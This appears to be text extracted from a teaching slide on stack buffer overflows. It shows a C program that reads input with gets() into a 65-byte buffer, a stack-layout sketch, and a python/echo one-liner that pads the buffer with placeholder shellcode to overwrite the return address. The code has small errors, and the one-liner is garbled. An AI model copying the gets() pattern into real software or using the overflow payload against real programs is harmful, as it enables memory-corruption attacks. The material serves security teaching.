

Exa[si]mple .. V

count	            **argv
Return Address
Previous SP
variable
65 bytes
buffer
int main(int count,char **argv)
{
	int variable = 10;
	char buffer[65];

	gets(buffer);

	if(variable != 10)
		printf(“My Variable is 10”);
	else
		printf(“OOps I dont see 10”);

	return 0
}
0x 12 34 56 78

Address using GDB - \x12\x34\x56\x78
 C	 C	 C	 C
B
B
    B     B
XX
XX
XX
XX
XX
0x12345678
XX
$

echo -e `python -c “print ‘<SHELLCODE>’*(65-len(<SHELLCODE>) + ‘B’*4 + ‘C’*4 + ‘\x12\x34\x56\x78’ ” ` |  ./a.out